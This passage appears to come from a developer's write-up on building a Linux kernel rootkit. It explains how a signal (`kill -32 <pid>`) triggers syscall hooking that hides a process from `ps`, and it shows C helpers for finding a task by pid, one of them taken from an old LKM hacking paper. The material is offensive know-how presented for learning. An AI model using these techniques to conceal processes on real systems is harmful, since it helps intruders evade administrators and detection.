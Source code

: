 So, a recap about the Workflow of the machanism:
- When we deliver pid of any process via `kill -32 <pid>`, it will at first find out that particular `pid` by surfing through "`/proc/`" directory.
- After getting the `pid`, it will perform syscall hooking to hide that particular pid and then offering a new process list (excluding the mentioned pid), if the user tries to see running processes using ***ps***.

a) Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L99).\
Finding the process id/ pid:\
According to [LKM_HACKING](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.):

```c
/* Here, -"&gt;" is the html character entities, which really mean: -">" 
I really don't know, how it happened in that site */

/* get task structure from PID */
struct task_struct *get_task(pid_t pid)
{
	struct task_struct *p = current;
	do {
		if (p->pid == pid)
			return p;
		p = p->next_task;
	}
	while (p != current);
	return NULL;
}
```
I wasn't understanding this portion, but yes I was getting an idea that it is looping to get the process ids. So, I tried for loop.
```c
// reveng_rtkit

#include <linux/sched.h>        /* task_struct: Core info about all the tasks */

struct task_struct *find_task(pid_t pid)
{
	struct task_struct *target_process = current;

	/* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601
	 * for loop macro
	 * #define for_each_process(p) \
	 * for (p = &init_task ; (p = next_task(p)) != &init_task ; )
	 */
	for_each_process(target_process)
	{
		if (target_process->pid == pid)
		{
			return target_process;
		}
	}
	return NULL;
}
```
This is basically a for loop macro. I got this expression from  [diamorphine](https://github.com/m0nad/Diamorphine/) project. Then searched it in [bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601).
                    